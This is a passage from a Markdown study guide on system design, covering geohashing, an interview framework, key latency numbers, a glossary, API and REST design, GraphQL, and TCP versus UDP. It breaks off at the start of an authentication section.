

**How the geospatial search works:**

The location service needs to answer _"who is within 2km of this point?"_ millions of times per second. Standard databases are terrible at this. Uber uses a technique called **geohashing**:

```
Geohash: divide the world into a grid
  Each grid cell has a string code.
  Nearby locations have similar code prefixes.

  Location: 51.507°N, 0.127°W
  Geohash:  gcpvh3  (6-character code)

  Finding nearby drivers:
  → Find all drivers whose geohash starts with "gcpvh"
  → This is a simple string prefix search — database index handles it instantly
  → All matching drivers are within ~2.4km of the requested location

  This turns "find nearby things" into "find things with similar string"
  which any database can do extremely fast.
```

---

## 17. The System Design Interview Playbook

System design interviews test whether you can think through building a real system — not whether you memorise every detail. They want to see your thought process.

### The 5-step framework



---

### Step 1 — The questions you MUST ask before drawing anything

_Never start designing without clarifying scope. Interviewers often leave requirements vague on purpose to see if you clarify._

```
Scope:
  "What are the top 3 features we're designing for?"
  "Are we designing the whole system or one specific part?"

Scale:
  "How many daily active users?"
  "How many requests per second at peak?"
  "How much data are we storing? GB? TB? PB?"

Constraints:
  "Is this read-heavy or write-heavy?"
  "Does it need to be globally available?"
  "What's the latency requirement? Sub-100ms?"

Consistency:
  "Is it okay to show slightly stale data?"
  "Example: is it okay if a user sees their new profile pic
   with 5 seconds delay, or must it be instant?"
```

---

### Step 2 — Back-of-envelope math

You don't need exact numbers. You need order-of-magnitude estimates to guide decisions.

```
Example: "Design Instagram"

Given: 1 billion users, 100M daily active, 50M new photos/day

Requests per second:
  100M DAU, average 10 page loads/day = 1B requests/day
  1B / 86,400 seconds = ~11,500 req/sec
  Peak (10x): ~115,000 req/sec  →  Need serious infrastructure

Storage for photos:
  50M new photos/day × 2MB average = 100TB/day
  Per year: 36.5 PB  →  Need distributed object storage (S3)
  Can't fit on one machine. Need CDN for delivery.

Database reads:
  Photos are viewed far more than uploaded.
  Assume 100x read:write ratio.
  50M uploads → 5B reads/day → Cache the popular ones!
```

---

### Step 3 — The high level diagram

Draw this first, then walk through it:

```
1. Client (browser/mobile)
2. DNS → CDN (for static assets)
3. Load Balancer
4. API Gateway (auth, routing, rate limiting)
5. Application Servers (your main logic)
6. Cache (Redis) — in front of DB
7. Primary Database
8. Replicas (for read scale)
9. Object Storage (images/videos)
10. Message Queue (background jobs)
11. Worker Servers
```

---

### Step 4 — Deep dive areas to focus on

These are the areas most often probed in interviews:

```
Database Design:
  - What tables/collections? What columns?
  - What are the access patterns? (mostly reads? writes? both?)
  - What needs indexes?

API Design:
  - What endpoints? POST /tweets, GET /feed/:userId
  - What does each accept and return?

The Hard Problem:
  Every system design question has ONE hard problem.
  Find it and go deep.

  Twitter → fan-out to millions of followers
  Uber    → real-time geospatial matching
  YouTube → video encoding and distribution
  WhatsApp → message delivery guarantees
  Pastebin → unique URL generation at scale
```

---

### Quick problem → solution reference

| You hear this problem                        | Reach for this                       |
| -------------------------------------------- | ------------------------------------ |
| "Server is overwhelmed"                      | Horizontal scaling + Load balancer   |
| "Database queries are slow"                  | Add Redis cache in front of it       |
| "Database can't hold all the data"           | Sharding                             |
| "One machine dying takes everything down"    | Replication + failover, redundancy   |
| "Users in other countries have high latency" | CDN + edge servers / multi-region    |
| "Users wait too long for heavy operations"   | Message queue + async workers        |
| "Same data fetched millions of times"        | Cache it (browser, CDN, or Redis)    |
| "Managing 50 services is chaos"              | API Gateway + service mesh           |
| "One client is abusing the API"              | Rate limiting                        |
| "Debugging across services is impossible"    | Distributed tracing (Jaeger, Zipkin) |
| "Need to see what's happening in real time"  | Centralised logging (ELK stack)      |
| "Write throughput maxed out"                 | CQRS + event sourcing, or sharding   |

---

## 18. Key Numbers Every Designer Should Know

These numbers come up constantly. You don't need to memorise exact values, just order of magnitude.

```
STORAGE:
━━━━━━━
1 byte    = one character
1 KB      = 1,000 bytes    ≈ a short text message
1 MB      = 1,000 KB       ≈ a photo (compressed), 1 minute of audio
1 GB      = 1,000 MB       ≈ a movie (compressed)
1 TB      = 1,000 GB       ≈ 1,000 movies
1 PB      = 1,000 TB       ≈ what large companies store in a day

SPEED OF OPERATIONS (know these cold):
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
L1 cache (on CPU chip)          0.5 ns    "instant"
L2 cache (near CPU)               7 ns    "instant"
RAM read                        100 ns    still very fast
SSD read                        150 µs    1,500x slower than RAM
Network, same datacenter        0.5 ms    slow-ish
HDD seek                         10 ms    very slow
Network, cross-continent        150 ms    painfully slow
Network, cross-ocean            300 ms    very painful

THE KEY INSIGHT:
━━━━━━━━━━━━━━━
RAM is ~1,500 times faster than SSD
SSD is ~70 times faster than HDD
Same datacenter network ~ SSD
Cross-continent network = nightmare

→ Cache = serve from RAM instead of SSD/DB
→ CDN = serve from nearby instead of cross-continent
```

| What                            | Approximate |
| ------------------------------- | ----------- |
| Read 1MB from RAM               | 0.25 ms     |
| Read 1MB from SSD               | 1 ms        |
| Read 1MB from HDD               | 20 ms       |
| Redis GET operation             | < 1 ms      |
| DB query (cached plan, indexed) | 1-5 ms      |
| DB query (cold, full scan)      | 100-5000 ms |
| HTTP req (same city CDN)        | 10-30 ms    |
| HTTP req (cross-continent)      | 150-300 ms  |

---

## 19. Glossary

A plain-English definition of every term used in system design:

| Term                     | What it actually means                                                                             |
| ------------------------ | -------------------------------------------------------------------------------------------------- |
| **Latency**              | How long one request takes from start to finish. "High latency" = slow.                            |
| **Throughput**           | How many requests your system handles per second. "High throughput" = handles lots.                |
| **Scalability**          | Can your system handle 10x more load by adding resources?                                          |
| **Availability**         | Is your system up and responding? Measured as a % of time.                                         |
| **Reliability**          | Does your system do what it's supposed to do, consistently?                                        |
| **Durability**           | If you save data, does it stay saved even after crashes?                                           |
| **Consistency**          | Do all nodes/users see the same data at the same time?                                             |
| **Eventual consistency** | Data will be consistent across all nodes... but maybe not immediately.                             |
| **Redundancy**           | Having backup components so one failure doesn't kill everything.                                   |
| **Failover**             | Automatic switch from a failed component to its backup.                                            |
| **SPOF**                 | Single Point of Failure — one thing whose death kills the whole system.                            |
| **Stateless**            | Server has no memory of previous requests. Each request contains everything needed.                |
| **Idempotent**           | Doing the same operation multiple times gives same result. Safe to retry.                          |
| **Horizontal scaling**   | Add more machines (scale out).                                                                     |
| **Vertical scaling**     | Make existing machine bigger (scale up).                                                           |
| **Sharding**             | Split data across multiple DB machines. Each holds a different slice.                              |
| **Replication**          | Copy the SAME data to multiple machines. Different shards.                                         |
| **Cache hit**            | Requested data found in cache. Fast.                                                               |
| **Cache miss**           | Requested data NOT in cache. Had to go to DB. Slow.                                                |
| **Cache invalidation**   | Deciding when to delete or update cached data because the source changed.                          |
| **TTL**                  | Time To Live — how long something is valid before expiring.                                        |
| **Fan-out**              | One event causing writes to many places (e.g. one tweet → many timelines).                         |
| **Hot spot**             | One shard/server getting way more traffic than others.                                             |
| **Rate limiting**        | Capping how many requests a client can make in a time window.                                      |
| **Backpressure**         | Signal from an overwhelmed component to its upstream to slow down.                                 |
| **SLA**                  | Service Level Agreement — the uptime % you promise customers.                                      |
| **SLO**                  | Service Level Objective — internal target for uptime/performance.                                  |
| **P99 latency**          | 99th percentile latency — "99% of requests complete within this time".                             |
| **CDN**                  | Content Delivery Network — global servers that cache your static content closer to users.          |
| **Edge server**          | A server physically close to the end user. CDN nodes are edge servers.                             |
| **Origin server**        | Your main server. CDNs fetch from origin when they don't have a cached copy.                       |
| **Partition**            | A network split between nodes that can't communicate with each other.                              |
| **Consensus**            | Multiple distributed nodes agreeing on one value (very hard problem).                              |
| **Leader election**      | Choosing one node to be the "primary" / "leader" in a cluster.                                     |
| **Circuit breaker**      | Stops calling a failing service and fails fast instead of waiting. Prevents cascade failures.      |
| **Saga pattern**         | A way to handle distributed transactions across microservices without a global lock.               |
| **CQRS**                 | Command Query Responsibility Segregation — separate reads and writes into different models.        |
| **Event sourcing**       | Store all changes as events rather than just the current state.                                    |
| **Bloom filter**         | Probabilistic data structure: "Is this item definitely NOT in the set?" Used for cache pre-checks. |
| **Consistent hashing**   | A way to distribute load across servers so adding/removing servers only affects a small % of data. |

---

## 20. Single Server Setup — where every system starts

Before load balancers, database clusters, and CDNs — every system starts with one machine doing everything.

### What a single server looks like

```
+-------------------------------------------------------+
|                    Your One Server                    |
|                                                       |
|  Web Server (Nginx / Apache)                          |
|  Listens on port 80/443, handles HTTP                 |
|                      |                               |
|  Application Code (Node.js / Python / Java)           |
|  Your business logic runs here                        |
|                      |                               |
|  Database (PostgreSQL / MySQL)                        |
|  All your data lives on the same disk                 |
|                                                       |
|  Everything on ONE machine                            |
+-------------------------------------------------------+
                       ^
              All user traffic
```

### How a request flows through a single server



### Why it is the right place to start

```
+ One machine, one bill, one place to look
+ Fast to set up — no architecture decisions needed
+ Easy to debug — no network hops between components
+ Very cheap — a few dollars a month on any cloud provider
+ Fast iteration — deploy, restart, done
```

### When it starts to crack

```
10 users       ->  Runs fine. Enjoy it.
1,000 users    ->  Slightly slow at busy times.
10,000 users   ->  CPU hitting limits, timeouts appearing.
100,000 users  ->  Regular crashes.

Three structural problems appear well before performance does:

Problem 1 — Single Point of Failure:
  Machine goes down (hardware, bad deploy, power cut)
  -> Entire app is dead. No backup. No fallback.

Problem 2 — Data at Risk:
  App and database share the same disk.
  Disk fails -> data is gone too.

Problem 3 — No Independent Scaling:
  Database is slow but you cannot scale only that.
  It is all one unit — scale everything or nothing.
```

> **This is why the rest of system design exists.** Every technique in this guide is a solution to one of these three problems at scale.

### The natural evolution path

```
Stage 1                           Stage 2
Single server                     Separate app from database

+-----------------+               +------------+   +-----------+
| App + DB        |   -------->   | App Server |-->| DB Server |
| (one machine)   |               +------------+   +-----------+
+-----------------+

Stage 3                           Stage 4
Add a cache                       More app servers + load balancer

+------+  +-------+               +----------+     +----------+
| App  |->| Cache |               |   Load   |---> |  App 1   |
+------+  +---+---+               | Balancer |---> |  App 2   |
              |                   +----------+     |  App 3   |
              v                                    +-----+----+
            +----+                                       |
            | DB |                             all share the same DB
            +----+
```

Each stage is a response to real pain. You do not do Stage 4 on day one.

---

## 21. API Design — the contract between systems

### What even is an API?

**API** stands for Application Programming Interface. Ignore the letters — the concept is simple.

Think of a restaurant. You do not walk into the kitchen and cook your own food. You look at the **menu**, order something specific, and a waiter brings exactly that. The menu is the API — a defined list of things you can ask for, and what you will get back.

```
You           ->  Waiter (API)       ->  Kitchen (Server)
              "Can I get a burger?"
                        |
                   tells kitchen
                        |
                  burger is ready
              "Here is your burger"
```

In software:

- **You** = a mobile app, website, or another server
- **The menu** = API documentation (what you can ask for)
- **The waiter** = the API endpoint handling your request
- **The kitchen** = the server doing the actual work

---

### HTTP methods — the verbs of an API

```
GET     -> "Give me something" (read only, no side effects)
           GET /users/42  ->  return user 42's profile

POST    -> "Create something new"
           POST /orders  ->  place a new order

PUT     -> "Replace this entirely"
           PUT /users/42  ->  replace the whole user record

PATCH   -> "Update just part of this"
           PATCH /users/42  ->  update only the email field

DELETE  -> "Remove this"
           DELETE /users/42  ->  delete user 42
```

---

### HTTP status codes — what the server says back

```
2xx — Success
  200 OK           ->  Standard success
  201 Created      ->  New resource was created
  204 No Content   ->  Success, nothing to return (e.g. after DELETE)

4xx — Your fault (client error)
  400 Bad Request       ->  You sent invalid or malformed data
  401 Unauthorized      ->  Not logged in / no valid token
  403 Forbidden         ->  Logged in, but not allowed to access this
  404 Not Found         ->  That resource does not exist
  429 Too Many Requests ->  Rate limited. Slow down.

5xx — Server fault
  500 Internal Server Error ->  Something broke on the server
  503 Service Unavailable   ->  Server is down or overloaded
```

---

### What a good request and response look like

```
Creating a new order:

REQUEST:
  POST /api/v1/orders
  Authorization: Bearer eyJhbGci...
  Content-Type: application/json

  {
    "product_id": 123,
    "quantity": 2,
    "delivery_address": "10 Downing St, London"
  }

RESPONSE (201 Created):
  {
    "order_id": "ord_abc123",
    "status": "confirmed",
    "estimated_delivery": "2024-12-25",
    "total_amount": 29.98,
    "created_at": "2024-12-01T09:00:00Z"
  }
```

---

### Good API design rules

```
Use nouns for resources, not verbs:
  GET /orders          (correct)
  GET /getOrders       (wrong — the verb is already in GET)
  POST /orders         (correct)
  POST /createOrder    (wrong)

Use nested URLs for relationships:
  GET /users/42/orders    (all orders belonging to user 42)
  GET /orders/7/items     (all items in order 7)

Always version your API from day one:
  /api/v1/users
  /api/v2/users
  (so you can update v2 without breaking apps still on v1)

Support pagination — never dump a million records at once:
  GET /posts?page=2&limit=20
  Response: { "data": [...], "has_more": true, "next_cursor": "abc" }

Design for idempotency — safe operations should be safe to retry:
  GET  /users/42       ->  same result every time
  DELETE /orders/99    ->  first call deletes, second gives 404 (no harm)
  POST /payments       ->  use idempotency-key header to prevent double charges
```

---

### API versioning strategies

```
URL versioning (most common):
  /api/v1/users
  /api/v2/users
  Simple, visible, easy to route.

Header versioning:
  GET /api/users
  Accept: application/vnd.myapp.v2+json
  Clean URLs but less obvious.

Query param versioning:
  GET /api/users?version=2
  Easy to test in a browser.
```

> Version your API from day one. Changing a public API without versioning breaks every client that depends on it.

---

## 22. API Protocols — the languages systems use to talk

An API protocol is the agreed set of rules for how two systems exchange messages. Think of it as choosing a spoken language — both sides must use the same one.

```
REST        ->  "Give me this resource"
GraphQL     ->  "Give me EXACTLY these fields, nothing more"
gRPC        ->  "Call this function on that machine"
WebSocket   ->  "Keep the line open — let's have a real conversation"
Webhook     ->  "You call ME when something happens on your end"
```

---

### REST — the most common

Standard request/response over plain HTTP. You ask for a resource, the server responds.

- Simple, universally understood
- Stateless — each request carries everything needed
- Uses HTTP verbs (GET, POST, PUT, DELETE) on resource URLs
- Data in JSON format
- Best for: public APIs, mobile apps, web frontends

---

### GraphQL — ask for exactly what you want

The client specifies in the query body exactly which fields it needs. The server returns only those — nothing extra.

- Solves "over-fetching" (getting too much) and "under-fetching" (needing multiple calls)
- Single endpoint: `POST /graphql`
- Best for: complex UIs with varied data needs, mobile where bandwidth matters

---

### gRPC — the fast internal highway

Lets one service call a function on another service as if it were a local function call. Uses Protocol Buffers (binary format) instead of JSON — much faster.

- Very fast (binary, not text)
- Strongly typed — both sides agree on the exact data shape upfront
- Best for: internal microservice-to-microservice calls where performance is critical

---

### WebSockets — real-time two-way connection

A persistent, open connection. Either side can send messages at any time, without the other side needing to ask first.

- Not request/response — genuinely real-time in both directions
- Best for: chat apps, live sport scores, multiplayer games, collaborative editing

---

### Webhooks — let the server come to you

Instead of you repeatedly asking "is it done yet?", you give the server your URL and it calls you when something happens.

```
Polling (wasteful):               Webhook (efficient):

You ask every 5 seconds:          Server calls your URL instantly:
  "Is payment confirmed?"         POST https://yourapp.com/hook
  "Is payment confirmed?"         {
  "Is payment confirmed?"           "event": "payment.completed",
  ...finally... "Yes!"              "order_id": "ord_abc123"
                                  }

Like calling a restaurant         Like asking the restaurant to
every 5 minutes to ask if         text you when your table is ready
your table is ready
```

---

### Protocol comparison



| Protocol      | Style                    | Format            | Best for                             |
| ------------- | ------------------------ | ----------------- | ------------------------------------ |
| **REST**      | Request / Response       | JSON              | Public APIs, CRUD apps               |
| **GraphQL**   | Request / Response       | JSON              | Complex queries, varying data shapes |
| **gRPC**      | Request / Response       | Binary (Protobuf) | Fast internal microservice calls     |
| **WebSocket** | Persistent bidirectional | Text or Binary    | Chat, live feeds, multiplayer games  |
| **Webhook**   | Server pushes to client  | JSON              | Event notifications, integrations    |

---

## 23. Transport Layer — TCP and UDP

Before HTTP, REST, or GraphQL can work, there is a lower layer that physically moves bytes from one machine to another — the **Transport Layer**.

The two main protocols: **TCP** and **UDP**. They are like two very different delivery services.

---

### TCP — Transmission Control Protocol

TCP is the careful, reliable courier. It guarantees every piece of your message arrives, in the right order, with no duplicates.

```
How TCP works:

Step 1 — Handshake (before any data):
  You -> Server:  "SYN   — Hello, are you there?"
  Server -> You:  "SYN-ACK  — Yes, can you hear me?"
  You -> Server:  "ACK  — Great, let us start."
  (This is called the Three-Way Handshake)

Step 2 — Data travels in numbered packets:
  "Hello World!" splits into:
  [Packet 1: "Hell"] [Packet 2: "o Wo"] [Packet 3: "rld!"]

Step 3 — Server acknowledges each packet:
  "Got 1" -> "Got 2" -> waiting for 3...

Step 4 — Lost packets get resent automatically:
  Packet 3 never arrives -> TCP resends it

Step 5 — Reassembled in correct order at destination
```

TCP guarantees:

- All data arrives (no silent loss)
- Correct order
- No duplicates
- Slower due to handshaking and acknowledgements

**Used for:** HTTP, email, SSH, file downloads, database connections — anything where accuracy matters.

---

### UDP — User Datagram Protocol

UDP is the fast, careless courier — fire and forget.

```
How UDP works:

No handshake.
No acknowledgement.
No ordering.
No error recovery.

You -> "Here is the data." -> blasts packets at maximum speed

That is it.
```

UDP characteristics:

- Very fast — minimal overhead
- Low latency
- No delivery guarantee (packets can silently get lost)
- No ordering guarantee

**Used for:** Video calls, online gaming, live streaming, DNS — where speed beats perfection.

---

### The key difference — an analogy

```
TCP is like tracked, signed-for delivery:
  + Confirmed delivered
  + Redelivered if lost
  + Arrives intact and in order
  - Slightly slower
  Use for: bank transfers, file downloads

UDP is like shoving a flyer through a letterbox:
  + Instant — no waiting
  - No confirmation it was received
  - Might land in the bin
  Use for: live video (dropping 1 frame in 60 is fine)
```

---

### TCP vs UDP

```
+------------------------------------+------------------------------------+
|               TCP                  |               UDP                  |
+------------------------------------+------------------------------------+
| Connection-based (handshake first) | Connectionless (just send)         |
| Guaranteed delivery                | No delivery guarantee              |
| Guaranteed order                   | No order guarantee                 |
| Error recovery built in            | Basic error check, no recovery     |
| Slower                             | Faster                             |
| Higher overhead                    | Minimal overhead                   |
| HTTP, SSH, email, file transfer    | Video calls, DNS, games            |
+------------------------------------+------------------------------------+
```

---

### When does this matter for system design?

```
Designing a video call app?
  Dropping 1 frame is fine. Waiting for retransmission = freeze.
  -> Use UDP

Designing a payment system?
  Missing one byte = data corruption. Must retry.
  -> Use TCP

Designing a live multiplayer game?
  Position updates every 50ms. Missing one is fine.
  -> UDP for positions, TCP for critical events (scores, chat)

Designing a DNS resolver?
  Small request, small response, needs to be fast.
  If the UDP packet is lost, client just retries.
  -> UDP
```

> **Modern note:** HTTP/3 runs over **QUIC** — built on UDP with its own reliability layer. It gets UDP's speed while avoiding TCP's head-of-line blocking, where one lost packet stalls all other streams.

---

## 24. RESTful APIs — the most popular way to build APIs

### What makes an API "RESTful"?

**REST** stands for Representational State Transfer — a set of rules for APIs that use standard HTTP.

The core idea: **everything is a resource** (a noun — users, posts, orders). Resources live at URLs. HTTP verbs say what to do with them.

---

### The resource model

```
Resource              URL
-----------           ----------------------------------
All users       ->    GET  /users
One user        ->    GET  /users/42
User's orders   ->    GET  /users/42/orders
One order       ->    GET  /users/42/orders/7
```

Verbs say the action:

```
GET    /users          ->  list all users
POST   /users          ->  create a new user
GET    /users/42       ->  get user 42
PUT    /users/42       ->  completely replace user 42
PATCH  /users/42       ->  update specific fields of user 42
DELETE /users/42       ->  delete user 42
```

---

### A complete REST API — a blog platform

```
Articles:
  GET    /articles                   ->  list all (paginated)
  POST   /articles                   ->  create new article
  GET    /articles/abc123            ->  get specific article
  PUT    /articles/abc123            ->  replace entire article
  PATCH  /articles/abc123            ->  update title or body only
  DELETE /articles/abc123            ->  delete it

Comments on an article:
  GET    /articles/abc123/comments   ->  get all comments
  POST   /articles/abc123/comments   ->  add a comment
  DELETE /articles/abc123/comments/7 ->  delete comment 7

Filtering, sorting, pagination:
  GET /articles?category=tech
  GET /articles?sort=date&order=desc
  GET /articles?page=2&limit=20
```

---

### A full request and response example

```
Creating a new article:

REQUEST:
  POST /api/v1/articles
  Authorization: Bearer eyJhbGci...
  Content-Type: application/json

  {
    "title": "How TCP actually works",
    "body": "Before HTTP can do anything...",
    "category": "networking"
  }

RESPONSE (201 Created):
  {
    "id": "art_xyz789",
    "title": "How TCP actually works",
    "body": "Before HTTP can do anything...",
    "category": "networking",
    "author_id": "usr_42",
    "created_at": "2024-12-25T09:00:00Z"
  }
```

---

### The 6 principles of REST

```
1. Client-Server Separation
   UI (client) and data/logic (server) are completely separate.
   Client does not care how the server stores data.
   Server does not care how the client displays it.

2. Stateless
   Server remembers NOTHING between requests.
   Every request contains all the information needed.
   (User identity goes in a JWT or cookie, not server memory.)
   This is what makes horizontal scaling possible.

3. Cacheable
   Responses can declare themselves cacheable.
   GET responses are usually cacheable.
   POST and DELETE usually are not.

4. Uniform Interface
   Consistent, predictable URLs and verbs across all resources.

5. Layered System
   Client does not know if it is talking directly to the server
   or to a load balancer or CDN in between. Does not need to.

6. Code on Demand (optional)
   Server can send executable code (e.g. JavaScript).
   Rarely used in modern REST APIs.
```

---

### Common REST anti-patterns — what NOT to do

```
Verbs in URLs:
  GET /getUser?id=42       ->  GET /users/42
  POST /createOrder        ->  POST /orders
  POST /deleteUser?id=42   ->  DELETE /users/42

No versioning:
  /api/users  (change this -> breaks every client using it)
  ->  /api/v1/users  (version from day one)

Inconsistent error format:
  Sometimes: { "message": "not found" }
  Sometimes: { "error": { "code": 404 } }
  Sometimes: just a 404 with no body
  ->  Always use one consistent structure

Returning sensitive fields:
  { "id": 42, "password_hash": "$2b$12$abc..." }
  ->  Never include internal fields in API responses
```

---

## 25. GraphQL — fetch exactly what you need

### The problem REST has

Imagine a mobile profile page needing: name, photo, last 3 post titles, follower count.

With REST you would make 3 separate calls:

```
Call 1:  GET /users/42
  Returns: name, photo, bio, email, settings, last_login, ...
  (You needed name + photo — you got much more. Over-fetching.)

Call 2:  GET /users/42/posts
  Returns: 20 posts, each with full body, tags, comment counts...
  (You needed 3 titles — still too much. Over-fetching.)

Call 3:  GET /users/42/stats
  (A whole extra round trip just for follower count. Under-fetching.)

Problems:
  -> 3 network round trips (slow on mobile)
  -> Much more data than needed (wastes mobile bandwidth)
```

This is the **over-fetching / under-fetching** problem.

---

### What GraphQL does instead

The client asks for exactly what it needs in a single request:

```graphql
query UserProfile {
  user(id: "42") {
    name
    photo
    followerCount
    recentPosts: posts(limit: 3) {
      title
      createdAt
    }
  }
}
```

Response — nothing more, nothing less:

```json
{
  "data": {
    "user": {
      "name": "Alice",
      "photo": "https://cdn.example.com/alice.jpg",
      "followerCount": 1234,
      "recentPosts": [
        { "title": "My first post", "createdAt": "2024-12-01" },
        { "title": "Learning GraphQL", "createdAt": "2024-12-10" },
        { "title": "System design tips", "createdAt": "2024-12-20" }
      ]
    }
  }
}
```

One call. Exactly what was asked for.

---

### How GraphQL works under the hood



The GraphQL server orchestrates fetching from multiple services. The client just describes the shape of data it wants.

---

### Core concepts

```
SCHEMA — the menu of everything queryable:
  type User {
    id: ID!
    name: String!
    posts: [Post!]!
    followerCount: Int!
  }

QUERY — reading data (like GET in REST):
  query {
    user(id: "42") { name, email }
  }

MUTATION — changing data (like POST/PUT/DELETE):
  mutation {
    createPost(title: "Hello!", body: "World") {
      id
      title
    }
  }

SUBSCRIPTION — real-time updates (like WebSocket):
  subscription {
    newMessage(chatId: "room1") {
      text
      sender { name }
    }
  }
```

---

### GraphQL vs REST — when to use which

| Use GraphQL when                              | Use REST when                              |
| --------------------------------------------- | ------------------------------------------ |
| Mobile app (bandwidth and round trips matter) | Simple CRUD API                            |
| Complex UI needs many data types at once      | Public API (REST is easier to document)    |
| Frontend teams iterate fast on queries        | Simple caching (REST URLs cache naturally) |
| Multiple clients need different data shapes   | File uploads or streaming                  |

---

## 26. Authentication — proving who you are

### What is authentication?

**Authentication** answers: _"Who are you? And can you prove it?"_

When you log in, you prove your identity once. The app gives you a badge (token or session) that you show on every subsequent request.

```
Without authentication:         With authentication:

Anyone accesses anything.       You prove who you are once.
No concept of "your data".      Get a badge (token).
                                Show it on every request.
                                Access only your own data.
```

---

### The three authentication factors

```
Factor 1 — Something you KNOW:
  Password, PIN, security question answer

Factor 2 — Something you HAVE:
  Your phone (receives an SMS code or runs an authenticator app)
  A physical hardware key (YubiKey)

Factor 3 — Something you ARE:
  Fingerprint, Face ID, retina scan

MFA (Multi-Factor Authentication) = combining any 2 of these.

Even if an attacker steals your password, they still cannot log in
without your phone or your fingerprint.
```

---

### Session-based auth — the classic approach

